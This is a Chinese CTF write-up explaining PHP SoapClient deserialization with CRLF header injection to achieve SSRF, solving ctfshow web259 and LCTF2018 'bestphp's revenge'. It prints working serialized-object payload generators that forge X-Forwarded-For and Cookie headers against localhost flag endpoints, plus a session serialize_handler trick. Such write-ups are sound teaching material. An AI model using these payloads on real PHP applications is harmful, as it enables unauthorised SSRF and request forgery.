




## SoapClient与反序列化

还可以打SSRF  **DASCTF2022十月EasyLove**

## SoapClient与CRLF组合拳实现

> CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting，简称HRS。

[Y4](file://D:/Typora/note/CTF/web/web259--writeUp.pdf)    Y4✌讲的很详细了，我就主要讲题目方面的了

### 前言

关于什么是**XFF**相必也不需要多说，这里补充一个新Trick

维护代理服务器和原始访问者 IP 地址。如果发送到 Cloudflare 的请求中不含现有的 **X-Forwarded**

**For** 标头，**X-Forwarded-For** 将具有与 **CF-Connecting-IP** 标头相同的值：

> 示例：X-Forwarded-For:203.0.113.1

如果发送到 Cloudflare 的请求中已存在 **X-Forwarded-For** 标头，则 Cloudflare 会将 HTTP 代理的 IP

地址附加到这个标头：

>  示例：X-Forwarded-For:203.0.113.1,198.51.100.101,198.51.100.102

### ctfshow_web259

**flag.php**

```php
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

**index.php**

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

由于本题是**Cloudflare**代理，所以在经过两次**array_pop**后得到的始终是固定的服务器IP，此时无论我们如何对XFF头进行修改都无济于事

因此需要实现**SoapClient**与**CRLF**的组合拳来为我们实现**SSRF**

### SoapClient

照着Y4✌做一下

在**vps**上开启监听，然后执行下面php代码

```php
<?php
$a = new SoapClient(null,array('uri'=>"bbb",'location'=>'http://1.15.107.150:3296'));
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```



可以看到，`SOAPAction`这里是我们可控的参数

尝试构造恶意的参数

```php
<?php
$a = new SoapClient(null,array('uri'=>"bbb\r\n\r\ntest\r\n\r\n",'location'=>'http://1.15.107.150:3296'));#必须是双引号哦，单引号会被当成字符
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

成功



这样我们就可以伪造数据包



但是`user_agent`同样可以`CRLF`，控制`Content-Type`的值

```php
<?php
$target = 'http://1.15.107.150:3296';
$post_string = 'data=something';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo $aaa;

$c = unserialize($aaa);
$c->not_exists_function();
?>
```



伪造成功

### 回到本题

因为有两个`array_pop`，所以要填两个`127.0.0.1`给它**pop**，剩下的那一个就是本地访问产生的`127.0.0.1`

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```

## 题目

### [Lctf2018 bestphp's revenge]

**index.php**

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
```

**flag.php**

```
only localhost can get flag!session_start(); echo 'only localhost can get flag!'; $flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ $_SESSION['flag'] = $flag; } only localhost can get flag!
```

很明显就是要**ssrf**来获取flag了

`call_user_func($_GET['f'], $_POST);`最前面用了一个函数来对数组进行处理，能利用的函数不多

本题用到的 `extract` 和`session_start` 

先利用`session_start`将php session反序列化的方法改变，从而造成php反序列化

```php
session_start(['serialize_handler'=>'php_serialize'])
```

然后就是本题的一大关键，我们可以控制`$_SESSION`的值，也就是说程序运行完，我们`$_SESSION`中的**value**是会保存到`sess_PHPSESSID`中的，而当我们以该**PHPSESSID**再次访问时，是会对里面的内容**反序列化**的

所以我们可以先构造一个打**CRLF**的**SoapClient**对象，然后下次重新访问的时候利用`call_user_func($b, $a);`来调用它的`__call`方法从而打**SSRF**

首先构造**SoapClient**对象

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'xlccccc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=xlccccc'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```


这一步构造了一个**SoapClient**对象并存在了本地的`/tmp/sess_ml5te253j49m4es0r3jimm8fu4`中


这一步对刚才上传的**SoapClient**对象进行反序列化，得到了`object(SoapClient)`

然后执行`call_user_func(array('SoapClient','welcome_to_the_lctf2018'))`，因为找不到`welcome_to_the_lctf2018`方法，所以调用`__call`方法从而触发**SSRF和CRLF**

然后`http://127.0.0.1/flag.php`的结果就存在了你伪造的**PHPSESSID**中，即`xlccccc`，这时候以该**PHPSESSID**访问，由于他会打印出`$_SESSION`，你就可以看到**flag**了


